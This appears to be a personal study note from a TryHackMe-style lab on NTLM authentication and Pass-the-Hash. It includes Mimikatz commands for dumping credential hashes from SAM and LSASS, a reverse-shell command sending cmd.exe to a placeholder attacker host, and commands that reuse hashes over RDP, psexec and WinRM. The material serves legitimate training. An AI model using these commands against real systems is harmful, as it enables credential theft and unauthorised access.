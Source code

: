 ## NTLM Authentication
#### How NTLM Authentication works
**NTLM** is a ***challenge-response protocol***.
- Susceptible to `Pass-the-Hash` and `Relay-attacks`.
![[NTLM Authentication.png]]
#### Applicable to Domain Accounts
1. The client sends an ***authentication request to the server*** they want to access.
2. The ***server generates a random number and sends it as a challenge*** to the client.
3. The ***client creates a response using its NTLM password hash and the challenge***, then sends it back.
4. The ***server forwards the challenge and response to the Domain Controller*** (DC).
5. The ***DC uses the challenge to recalculate the response and compares it to the initial response sent by the client*** (uses the ***NTLM hash stored in its database***). If they both match, the client is authenticated.
6. The server forwards the authentication result to the client.

`Note: If a local account is used, the server can verify the response to the challenge itself without requiring interaction with the DC since it has the password stored locally on its SAM.`

--- 
## Pass-the-Hash
#### After gaining **Admin Access** on a host
- Tools like ***Mimikatz can extract credentials.*** Sometimes you get clear-passwords, but often you only get ***NTLM hashes.*** 
- Even without cracking, ***NTLM hashes can be used directly for authentication.***
- This technique is called `Pass-the-Hash` - responding to an NTLM challenge using the hash.
- `Pass-the-Hash` ***works if the Windows Domain is configured to use NTLM Authentication***. 

#### Hashes can be extracted from the ***SAM database*** or ***LSASS memory***.
This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

**Extracting NTLM hashes from local SAM (not Domain Users)**
```mimikatz
privilege::debug 
token::elevate 

lsadump::sam 
	RID : 000001f4 (500) 
	User : Administrator 
		Hash NTLM: 145e02c50333951f71d13c245d352b50
```

**Extracting NTLM hashes from LSASS memory**
```mimikatz
privilege::debug
token::elevate

sekurlsa::msv
	Authentication Id : 0 ; 308124 (00000000:0004b39c) 
	Session : RemoteInteractive from 2 
	User Name : bob.jenkins 
	Domain : ZA 
	Logon Server : THMDC 
	Logon Time : 2022/04/22 09:55:02 
	SID : S-1-5-21-3330634377-1326264276-632209373-4605 
		msv : 
			[00000003] Primary 
			* Username : bob.jenkins 
			* Domain : ZA 
			* NTLM : 6b4a57f67805a663c818106dc0648484
```

#### Perform `Pass-the-Hash` Attack
We can use the extracted hashes to perform a Pass-the-Hash attack by using mimikatz to inject an access token for the victim user on a reverse shell.
```mimikatz
token::revert
sekurlsa::pth /user:<username> /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```
- `token::revert:` used to drop elevated privileges and restore the original user token, because Pass-the-Hash won't work properly with an elevated (e.g. SYSTEM) token.
- This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

#### Start a listener
```bash
nc -nlvp 5555
```
- This shell will show you the original user as the current user, but any command run from here will actually use the credentials we injected as `PtH`.

---
#### Passing the Hash using Linux
If you have access to a linux box, several tools have built-in support to perform Pass-the-Hash using different protocols.

**Connect to `RDP` using `PtH`**
```bash
xfreerdp /v:<victim_ip> /u:<domain\\user> /pth:<ntlm_hash>
```

**Connect via `psexec` using `PtH`
```bash
psexec.py -hashes <NTLM_hash> domain/user@<victim_ip>
```
- `Only the Linux version of psexec support Pass the Hash.`

**Connect to `WinRm` using `PtH`
```bash
evil-winrm -i <victim_ip> -u <username> -H <NTLM_hash>
```
